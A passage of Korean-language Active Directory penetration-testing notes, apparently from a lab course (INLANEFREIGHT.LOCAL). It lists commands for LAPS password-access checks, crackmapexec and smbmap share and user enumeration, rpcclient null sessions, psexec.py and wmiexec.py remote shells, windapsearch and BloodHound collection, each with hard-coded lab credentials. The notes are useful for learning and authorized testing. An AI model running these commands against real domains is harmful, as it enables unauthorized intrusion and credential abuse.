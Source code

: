 ```

### Enumerating Language Mode (PowerShell)
```$ExecutionContext.SessionState.LanguageMode``` : 전체 언어 모드인지 제한 언어 모드인지 빠르게 확인

### LAPS(Local Administrator Password Solution) 체크
```Find-LAPSDelegatedGroups``` : LAPS 암호를 읽을 수 있는 사용자 계정 확인<br/>
```Find-AdmPwdExtendedRights``` : "모든 확장 권한"을 가진 사용자 확인(LAPS 비밀번호를 읽을 수 있음)<br/>
```Get-LAPSComputers``` : 비밀번호가 만료되었을 때 무작위로 추출된 비밀번호를 일반 텍스트로 검색 가능

<br/><br/>
## 8. 자격증명 Enumerating - from Linux

### 도메인 사용자 열거
```sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users```

### 도메인 그룹 열거
```sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups```

### 로그인한 사용자
```sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users```

### Share Enumeration - Domain Controller
```sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares```

#### Share Enumeration - Spider_plus (각 읽기 가능한 공유를 파고들어 모든 읽기 가능한 파일을 나열)
```sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'```<br/>
```head -n 10 /tmp/cme_spider_plus/172.16.5.5.json ```

### SMBMap사용하여 Access 체크
```smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5```

### SMBMap사용하여 재귀적 모든 디렉토리 열거 (파일 제외)
```smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only```

### rpcclient를 사용한 SMB Null Session 체크
```rpcclient -U "" -N 172.16.5.5```

### Enumdomusers로 모든 사용자 열거
```rpcclient $> enumdomusers```

### rpcclient에서 RID로 User 열거
```rpcclient $> queryuser 0x457```

### Psexec.py로 호스트 연결 (로컬 관리자 권한 사용자 필요)
```psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125```<br/>
: 임의의 실행파일을 대상 호스트의 `ADMIN$` 공유에 업로드하여 원격 서비스를 생성, SYSTEM 쉘 획득

### wmiexec.py를 사용
```wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5```<br/>
: SYSTEM이 아닌 사용자 계정으로 쉘 실행, 은밀하지만 cmd.exe 생성 로그가 남음

### Windapsearch - 도메인 관리자 그룹 구성원 열거 
```python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da```

### Windapsearch - 권한이 있는 사용자 찾기
```python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU```

### BloodHound.py 실행
```sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all```<br/>
결과 ZIP으로 압축 : ````zip -r <name>.zip *.json````

### 참고 cheat sheet : [WADComs 프로젝트](https://wadcoms.github.io/)

<br/><br/>
## 9. 자격증명 Enumerating - from Windows

### ActiveDirectory 모듈 Load
```